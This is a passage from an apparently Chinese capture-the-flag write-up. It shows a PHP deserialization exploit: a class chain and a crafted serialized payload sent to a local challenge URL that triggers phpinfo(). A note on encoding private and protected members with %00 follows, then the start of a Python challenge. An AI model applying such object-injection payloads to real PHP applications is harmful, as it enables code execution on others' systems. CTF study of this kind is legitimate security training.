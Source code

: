 ```
class class003 {
    public $mystr="phpinfo()";

}

echo serialize(new class000());

http://127.0.0.1:58271/?data=O:8:"class000":2:{s:17:"%00class000%00payl0ad";i:1;s:7:"%00*%00what";O:8:"class001":2:{s:7:"payl0ad";s:9:"dangerous";s:1:"a";O:8:"class002":1:{s:13:"%00class002%00sec";O:8:"class003":1:{s:5:"mystr";s:10:"phpinfo();";}}}}
```

把private和protect的不可见字符替换成%00就行了

![](./images/image-18.png)

### **勇闯铜人阵**

典型的python题目，先查看答案在网页源码中的格式

![](./images/image-19.png)
